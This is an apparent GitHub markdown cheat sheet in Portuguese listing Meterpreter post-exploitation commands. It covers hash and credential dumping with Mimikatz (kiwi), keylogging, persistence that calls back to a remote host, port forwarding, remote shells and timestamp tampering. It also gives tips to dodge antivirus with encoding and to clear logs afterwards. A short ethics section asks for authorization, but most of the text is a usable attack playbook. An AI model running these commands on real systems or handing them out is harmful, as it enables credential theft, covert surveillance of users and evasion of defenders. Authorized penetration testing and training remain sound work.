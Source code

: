# Meterpreter - Guia de Comandos Detalhados

## O que é Meterpreter?
Meterpreter (Meta-Interpreter) é um payload avançado e dinâmico do Metasploit que fornece um shell interativo com amplas capacidades de pós-exploração.

## Comandos Principais por Categoria

### 1. COMANDOS BÁSICOS DO SISTEMA

```bash
# Navegação e informações do sistema
pwd                    # Mostra diretório atual
getwd                  # Mostra diretório de trabalho
cd [diretório]         # Muda diretório
ls                     # Lista arquivos
cat [arquivo]          # Exibe conteúdo do arquivo

# Informações do sistema
sysinfo                # Informações do sistema operacional
getuid                 # Mostra usuário atual
getpid                 # Mostra ID do processo
ps                     # Lista processos em execução
```

### 2. COMANDOS DE ARQUIVOS

```bash
# Manipulação de arquivos
download [arquivo]     # Baixa arquivo da máquina alvo
upload [arquivo]       # Envia arquivo para a máquina alvo
edit [arquivo]         # Edita arquivo com editor padrão
rm [arquivo]           # Remove arquivo
mkdir [diretório]      # Cria diretório
rmdir [diretório]      # Remove diretório
search -f [padrão]     # Busca arquivos por padrão
```

### 3. COMANDOS DE REDE

```bash
# Informações de rede
ipconfig/ifconfig      # Mostra configurações de rede
netstat                # Exibe conexões de rede
route                  # Mostra tabela de roteamento
arp                    # Exibe tabela ARP

# Port forwarding
portfwd add -l [porta_local] -p [porta_remota] -r [ip_alvo]
portfwd list           # Lista encaminhamentos ativos
portfwd delete         # Remove encaminhamento
```

### 4. COMANDOS DE PRIVILÉGIOS

```bash
# Escalação de privilégios
getsystem              # Tenta elevar privilégios para SYSTEM
getprivs               # Mostra privilégios disponíveis
run post/windows/gather/smart_hashdump  # Extrai hashes SAM
```

### 5. COMANDOS DE KEYLOGGING

```bash
# Captura de teclas
keyscan_start          # Inicia keylogger
keyscan_dump           # Mostra teclas capturadas
keyscan_stop           # Para keylogger
```

### 6. COMANDOS DE MIGRAÇÃO DE PROCESSO

```bash
# Migração entre processos
migrate [PID]          # Migra para outro processo
run post/windows/manage/migrate  # Migração automática
```

### 7. COMANDOS DE PERSISTÊNCIA

```bash
# Persistência no sistema
run persistence -h     # Mostra opções de persistência
run metsvc             # Instala serviço Meterpreter
run getgui -e          # Habilita RDP
```

### 8. COMANDOS DE RECONHECIMENTO

```bash
# Coleta de informações
run post/windows/gather/checkvm           # Verifica se é VM
run post/multi/gather/env                 # Coleta variáveis de ambiente
run post/windows/gather/enum_applications # Lista aplicações instaladas
```

### 9. COMANDOS DE SHELL

```bash
# Interação com sistema
shell                  # Abre shell do sistema
execute -f [arquivo]   # Executa arquivo
execute -f cmd -i      # Executa cmd interativamente
```

### 10. COMANDOS AVANÇADOS

```bash
# Módulos avançados
load [extensão]        # Carrega extensões (python, powershell, etc.)
load kiwi              # Carrega Mimikatz
creds_all              # Mostra todas as credenciais (após carregar kiwi)

# Timestomp
timestomp [arquivo] -h # Manipula timestamps de arquivos
```

### 11. COMANDOS DE SAÍDA

```bash
# Gerenciamento da sessão
background             # Coloca sessão em segundo plano
sessions -i [ID]       # Retorna para sessão específica
exit                   # Encerra sessão Meterpreter
```

## Exemplos Práticos Comuns

### 1. Coleta de Hashes
```bash
getsystem
load kiwi
creds_all
hashdump
```

### 2. Persistência Básica
```bash
run persistence -U -i 60 -p 443 -r 192.168.1.100
```

### 3. Port Forwarding
```bash
portfwd add -l 3389 -p 3389 -r 192.168.1.50
```

### 4. Keylogging
```bash
keyscan_start
# Aguarde usuário digitar...
keyscan_dump
keyscan_stop
```

## Dicas Importantes

1. **Sempre migre** para um processo estável após acesso
2. **Use encoding** para evitar detecção por antivírus
3. **Limpe logs** após atividades
4. **Use HTTPS** para comunicações
5. **Monitore recursos** do sistema alvo

## Considerações Éticas

- Use apenas em sistemas que você possui ou tem autorização para testar
- Respeite os termos de serviço
- Obtenha autorização por escrito antes de realizar testes
- Use em ambientes controlados para aprendizado